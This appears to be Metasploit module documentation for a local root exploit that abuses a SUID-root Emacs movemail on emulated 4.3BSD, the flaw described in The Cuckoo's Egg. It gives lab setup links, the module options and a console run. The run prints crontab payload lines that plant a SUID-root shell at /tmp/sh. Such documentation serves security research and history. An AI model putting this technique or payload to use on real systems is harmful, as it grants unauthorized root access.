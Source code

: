 ## Vulnerable Application

### Description

This module exploits a SUID installation of the Emacs `movemail` utility
to run a command as root by writing to 4.3BSD's `/usr/lib/crontab.local`.

The vulnerability is documented in Cliff Stoll's book *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   /usr/lib/crontab.local
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**MOVEMAIL**

Set this to the absolute path to the SUID-root `movemail` executable.

**CMD**

If your payload is `cmd/unix/generic` (suggested default), set this to
the command you want to run as root. The provided default will create a
SUID-root shell at `/tmp/sh`.

## Scenarios

### 4.3BSD

```
msf5 > use exploit/unix/local/emacs_movemail
msf5 exploit(unix/local/emacs_movemail) > show missing

Module options (exploit/unix/local/emacs_movemail):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (cmd/unix/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

msf5 exploit(unix/local/emacs_movemail) > set session -1
session => -1
msf5 exploit(unix/local/emacs_movemail) > run

[*] Setting a sane $PATH: /bin:/usr/bin:/usr/ucb:/etc
[-] Current shell is unknown
[*] $PATH is /bin:/usr/bin:/usr/ucb:/etc
[+] SUID-root /etc/movemail found
[*] Preparing crontab with payload
* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh
* * * * * root rm -f /usr/lib/crontab.local
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/emacs_movemail) >
```
